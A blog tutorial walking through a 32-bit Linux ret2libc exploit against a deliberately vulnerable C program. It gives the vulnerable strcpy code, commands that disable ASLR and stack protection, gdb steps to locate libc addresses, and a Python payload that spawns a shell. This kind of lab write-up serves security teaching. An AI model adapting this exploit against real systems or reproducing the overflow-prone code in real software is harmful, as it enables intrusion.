






Adrien Lasalle
Friday, September 18, 2020
#3 ret2libc exploit 32-bit linux
ret2libc ?
This is a flaw that we will exploit on a binary that has the NX (non-executable) protection enabled.

There are several ways to bypass this protection (ROP, ret2plt, etc…) but here we will focus on ret2libc.
In our program, the stack is not executable but the libc contains many interesting functions and it is executable.
The idea is to go look for the functions that interest us in order to build an exploit.
For example, to make a /bin/sh shell we’ll need :
- the address of the
system()function to execute a shell command. - the address of the
exit()function to exit our exploit cleanly. - the address of a
/bin/shstring to tell the system function what to run.
Alright, let’s go!
Code
Here is the C program that we will use:
#include <string.h>
#include <stdio.h>
int vulnerable(char *argument){
char buffer[100];
strcpy(buffer, argument);
printf("Bonjour, %s\n",buffer);
return 0;
}
int main(int argc, char *argv[]) {
vulnerable(argv[1]);
printf("Fin du Programme!\n");
return 0;
}
If you have followed the last tutorials (buffer and rop 32) the program is almost the same, it is at the compilation that there is a change!
Compile
To compile it we will remove the execstack option which allows to activate the NX protection:
gcc -m32 -fno-stack-protector -o ret2libc_32 ret2libc_32.c -no-pie
Don’t forget to diable ASLR :
sudo sysctl kernel.randomize_va_space=0
Padding
Like the other tutorials, we need to find the padding to reach EIP.
gef➤ pattern create 150
We then run the program with the pattern to fill EIP :

Now we just need to find the padding size with the offset and the following command:
gef➤ pattern search 0x62616164
The padding will be 112 long.
Payload
Our payload will be structured like this:
| Padding 112 | system() | exit() | “/bin/sh” |
|---|
We still need to find the addresses of the system(), exit() and "/bin/sh" functions.
Using gdb :
gef➤ p system

gef➤ p exit

and then at least "/bin/sh" :
gef➤ find &system,+99999999,"/bin/sh"

We have everything we need for our payload, let’s switch to python!
Python
Here is the python code to generate the payload:
#python -c 'print "A" * 112+"\x08\x04\x91\x96"[::-1]'
padding = "A" * 112
# 0xf7dff6e0
system = "\xe0\xf6\xdf\xf7"
# 0xf7df1e50
exit = "\x50\x1e\xdf\xf7"
# 0xf7f4f108:
binsh = "\x08\xf1\xf4\xf7"
payload = padding + system + exit + binsh
with open("payload.bin", "wb") as f:
f.write(payload)
Exploit !
Pwn pwn !
./ret2libc_32 $(cat payload.bin )

We have our shell! Bravo !